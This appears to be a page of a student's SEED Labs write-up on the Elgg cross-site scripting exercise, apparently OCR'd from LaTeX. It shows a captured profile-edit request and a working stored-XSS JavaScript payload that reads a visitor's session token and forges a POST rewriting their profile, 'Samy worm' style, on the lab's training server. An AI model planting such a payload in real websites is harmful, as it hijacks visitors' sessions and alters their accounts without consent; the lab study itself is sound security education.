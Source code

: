 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{verbatim}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{verbatim}
<script type="text/javascript">
	window.onload = function() {
	    var ts=elgg.security.token.__elgg_ts;
	    var token=elgg.security.token.__elgg_token;
	    var userName=elgg.session.user.name;
	    var guid=elgg.session.user.guid;
        var sendurl='/action/profile/edit';
	    var content=`__elgg_token=${token}&__elgg_ts=${ts}&name=${userName}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if(guid != 59)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
	}
</script>
\end{verbatim}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.
\end{document}
